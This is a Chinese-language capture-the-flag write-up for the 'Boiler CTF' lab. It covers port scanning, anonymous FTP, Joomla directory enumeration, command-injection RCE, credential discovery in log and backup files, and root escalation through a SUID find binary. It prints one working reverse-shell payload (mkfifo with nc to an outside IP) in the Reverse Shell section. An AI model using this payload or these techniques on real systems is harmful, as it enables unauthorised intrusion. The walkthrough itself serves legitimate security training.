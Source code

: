 # Boiler CTF

中级CTF。只要枚举一下，你就会到达那里。

---

## 端口扫描

循例 nmap

![在这里插入图片描述](https://img-blog.csdnimg.cn/4c83f0e7ef2f45639f51f92b845615df.png)

当题目问我最高端口上开启什么服务的时候，我就知道要-p-了

![在这里插入图片描述](https://img-blog.csdnimg.cn/dea5cb09014e4f78944ff53de7d13f2c.png)

## FTP枚举

开了ftp，尝试用anonymous登录

![在这里插入图片描述](https://img-blog.csdnimg.cn/1a5748c9905044aeb5456c4bd993857e.png)

把文件下载，打开发现很像英语但又不是，别人说这是凯撒

![在这里插入图片描述](https://img-blog.csdnimg.cn/2d20b04e256f487fa7643f911a183eba.png)

用在线工具一位一位的移动，直到13次位移：

![在这里插入图片描述](https://img-blog.csdnimg.cn/8dd4aeb22d4b46429fa5400a44ebbab1.png)

好吧这个信息可能没什么用，但仍然强调了注意枚举


## Web枚举

前面nmap信息给出了Webmin版本，这里searchsploit找一手

![在这里插入图片描述](https://img-blog.csdnimg.cn/797aca2763ba4db6849f71506f6273b3.png)

扫80端口的目录：

![在这里插入图片描述](https://img-blog.csdnimg.cn/60910ebd20fa40b6a30e4b807bb8649f.png)

查看robots.txt发现一串数字，这是ascii十进制，转换能得到长得跟base64的东西，base64解码又获得一串md5，使用cmd5发现并没有什么卵用

![在这里插入图片描述](https://img-blog.csdnimg.cn/48ffe9e75d8742ecbc655e0cd703e3bf.png)

回到刚刚80端口的目录扫描 结果，我们访问joomla:

![在这里插入图片描述](https://img-blog.csdnimg.cn/4bf30bde8f704de9b5a6069fefcc1d31.png)

这里似乎并没有暴露出版本号，由于joomla是cms的根目录，这里再对/joomla扫一下

这里扫到非常多目录

![在这里插入图片描述](https://img-blog.csdnimg.cn/7874ee39b1e348e39108be0acd0fadc2.png)

## Reverse Shell

挨个看看，其中/_test有所发现

![在这里插入图片描述](https://img-blog.csdnimg.cn/b9395519ef6d456dad5943941a8d3466.png)

使用searchsploit，发现一个rce，虽然我们不知道版本号，但也值得尝试

![在这里插入图片描述](https://img-blog.csdnimg.cn/8e154a26e38a48be8204dc31ae768a4f.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/272f1ad350dd42b98b24b5cc57fd77a4.png)

这里直接reverse shell，payload:

	|+mkfifo+/tmp/f1%3bnc+10.14.39.48+8888+<+/tmp/f1+|+/bin/bash+>+/tmp/f1

![在这里插入图片描述](https://img-blog.csdnimg.cn/5e9761a33eed4034b6ea8e3365d65c93.png)

## 横向移动

发现log.txt，里面存在一组凭据

![在这里插入图片描述](https://img-blog.csdnimg.cn/dfa9459a0a5b4157bbac13951385bdc1.png)

但尝试登录pentest是失败的，查看/home目录有两个文件夹，可以尝试使用这些用户名来进行密码喷射

![在这里插入图片描述](https://img-blog.csdnimg.cn/efbf0fbd2bbc4e01af34da27b932e269.png)

在basterd家目录发现一个backup.sh，阅读该文件，将直接发现另一个账户的有效明文密码

![在这里插入图片描述](https://img-blog.csdnimg.cn/8fccc2de3b054d2480a7f3998f1364cc.png)

## 权限提升

sudo -l发现：

![在这里插入图片描述](https://img-blog.csdnimg.cn/6cb1fe5b2481452ba20d0aa9454a83ad.png)

然鹅这文件并不存在

![在这里插入图片描述](https://img-blog.csdnimg.cn/8357dddccf1645ea8478f2b136630e26.png)

但查找suid的时候发现了提权的老朋友们的其中之一 find

![在这里插入图片描述](https://img-blog.csdnimg.cn/d120b3ad374044e0ae1e2cf38fc167aa.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/48b966b3aed143788b24ccbad01a7d2b.png)

getroot

## 结束

其实这个房间整体比较简单，但重点偏向于**枚举**，不管是从端口扫描还是到后面横向移动和提权，几乎全程都是在枚举中发现的，这也说明能够说明了枚举的重要性